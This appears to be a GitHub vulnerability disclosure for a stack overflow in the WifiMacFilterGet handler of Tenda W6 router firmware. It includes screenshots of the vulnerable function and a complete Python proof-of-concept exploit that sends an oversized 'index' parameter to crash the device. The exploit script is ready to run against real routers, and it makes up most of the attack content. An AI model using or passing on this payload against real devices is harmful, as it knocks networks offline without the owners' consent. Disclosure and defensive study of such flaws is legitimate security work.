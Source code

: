 # Tenda W6 Stack Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A stack overflow vulnerability exists in /goform/WifiMacFilterGet in Tenda W6 V1.0.0.9(4122) version, which can be exploited by attackers to cause a denial of service (DoS) via the index parameter.

The firmware can be downloaded at: https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability Location
/goform/WifiMacFilterGet

formWifiMacFilterGet()  Function

![image-20220708141723625](pic/image-20220708141723625.png)

![image-20220708141752749](pic/image-20220708141752749.png)



![image-20220708141838963](pic/image-20220708141838963.png)

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/WifiMacFilterGet"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x140

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [Please see the video for the demonstration process](./video/1.mp4)